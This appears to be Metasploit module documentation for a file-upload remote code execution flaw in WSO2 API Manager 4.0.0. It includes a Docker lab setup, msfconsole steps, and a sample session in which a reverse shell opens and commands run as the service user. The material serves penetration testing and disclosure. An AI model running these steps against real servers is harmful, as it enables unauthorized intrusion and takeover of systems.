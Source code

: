## Vulnerable Application

A vulnerability in the 'Add API Documentation' feature allows malicious users with specific permissions
(`/permission/admin/login` and `/permission/admin/manage/api/publish`) to upload arbitrary files to a user-controlled
server location. This flaw could be exploited to execute remote code, enabling an attacker to gain control over the server.

```yaml
services:
  api-manager:
    image: wso2/wso2am:4.0.0-alpine
    container_name: swo2_api_manager
    ports:
      - "9443:9443"

```

```bash
docker-compose up
```



## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use multi/http/wso2_api_manager_file_upload_rce`
1. Do: `set rhosts [ip]`
1. Do: `set lhost [ip]`
1. Do: `run`
1. You should get a shell.

## Scenarios

### WSO2 API Manager 4.0.0
```
msf6 exploit(multi/http/wso2_api_manager_file_upload_rce) > exploit

[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target...
[+] Authentication successful
[+] The target appears to be vulnerable. Detected WSO2 API Manager 4.0.0 which is vulnerable.
[+] Authentication successful
[*] Listing APIs...
[+] Document created successfully
[*] Uploading payload...
[+] Payload uploaded successfully
[*] Executing payload... 
[+] Payload executed successfully
[*] Command shell session 2 opened (127.0.0.1:4444 -> 127.0.0.1:58206) at 2024-11-03 15:36:37 +0100

id
uid=802(wso2carbon) gid=802(wso2) groups=802(wso2)
pwd
/home/wso2carbon/wso2am-4.0.0
exit
[*] 127.0.0.1 - Command shell session 2 closed.
```

## Options

### USERNAME (required)

The username to authenticate with.

### PASSWORD (required)

The password of the user to authenticate with.

### RHOSTS (required)

The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html

### RPORT (required)

The target port (TCP)
